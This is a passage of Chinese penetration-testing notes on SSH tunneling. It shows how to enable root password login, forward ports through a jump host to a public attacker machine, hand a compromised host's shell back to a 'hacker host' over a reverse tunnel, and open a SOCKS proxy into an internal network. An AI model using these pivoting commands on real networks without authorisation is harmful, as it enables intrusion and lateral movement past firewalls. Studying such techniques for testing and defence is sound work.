 SSH隧道是一种通过安全外壳协议（SSH）在两个网络之间创建安全连接的技术。它允许用户通过一个安全的通道在两个主机之间传输数据，可以用于加密和保护数据，以及绕过网络限制和防火墙。
适用于Linux，一般都开启，linux防火墙一般都让ssh通过，适用于手工通信但无法上线。
```
开启ssh协议登录：
vi /etc/ssh/sshd_config
PermitRootLogin yes
PasswordAuthentication yes
/etc/init.d/ssh start
/etc/init.d/ssh restart
```
![image-20240411103959960](http://cdn.33129999.xyz/mk_img/image-20240411103959960.png)
![](.topwrite/assets/image_1734340511664.png)

192.168.1.166跳板机，192.168.11.x:8080目标机的web服务。
```
跳板机：入站封，出站没封，用反弹端口
192.168.1.166跳板机上执行
ssh -CfNg -R 1234:192.168.11.x:8080 root@47.94.236.117
将目标机的8080端口服务，转发到公网机47.94.236.117:1234
输入公网机ssh的root密码 即公网机自动监听1234
此时公网攻击机本地的1234端口 访问就是 目标机的8080端口


跳板机：出站封，入站不封，用本地端口转发
192.168.1.166跳板机上执行
ssh -CfNg -L 1122:192.168.11.x:8080 root@192.168.1.166
将跳板机的1122端口监听目标机的8080端口
输入跳板机ssh的root密码 即跳板机自动监听1122端口
公网攻击机 直接访问 跳板机的1122端口 即是 目标机的8080端口


47.94.236.117上执行：
ssh -CfNg -L 80:192.168.11.x:80  root@192.168.1.166 -p 28299
内网192.168.11.x:80服务代理到本地的47.94.236.117:80上。
```



^
^
## **场景**
已知黑客主机C的IP：192.168.0.115
公网主机A unbantu：192.168.0.144 ，其内网IP：10.10.10.129，有一个web服务192.168.0.144/test.php
内网主机B：10.10.10.128 ，有一个web服务/test.php
已知已经获取了A的shell，现在要渗透获取B的shell。
^
## **出站被封**
**ssh隧道正向连接**：端口转发，A主机端口映射B主机端口
A主机执行命令：ssh -CNfL 0.0.0.0:7777:10.10.10.129:80 A主机用户名@127.0.0.1
输入A主机ssh用户名密码。
此时通过ssh监听本地端口7777，转发到内网主机80端口成功。
C主机访问192.168.0.144:7777即可访问内网主机web。 

^
## **入站被封**
**ssh隧道反向连接**：A主机反弹shell给C主机
A主机执行命令：ssh -qTfnN -R 2222:127.0.0.1:22 C主机用户名@192.168.0.115
输入C主机ssh用户名密码。
C主机再执行：ssh -p 2222 A主机用户名@127.0.0.1
输入A主机ssh用户名密码。
此时C主机的shell变成了A主机的。
访问curl 10.10.10.128即可访问内网主机web。
^

## **socks代理**
**ssh隧道socks代理**:
>SOCKS 是一种网络协议，用于在客户端和服务器之间进行通信。SOCKS 协议允许客户端在通过代理服务器转发数据时保持私密性。SOCKS 代理在客户端和目标服务器之间建立一个通道，并在通道两端之间传递数据。SOCKS 协议通常用于代理客户端的网络流量，以绕过网络限制、保护隐私或访问受限制的资源。


A主机执行命令：ssh -qTfnN -D 10086 C主机用户名@192.168.0.115
输入C主机ssh用户名密码。
此时C主机即可使用代理，192.168.0.144的10086。
如浏览器中设置代理，再访问10.10.10.128即可访问内网主机web。


47.94.236.117上执行：
ssh -CfNg -L 80:192.168.11.x:80  root@192.168.1.166 -p 28299
内网192.168.11.x:80服务代理到本地的47.94.236.117:80上。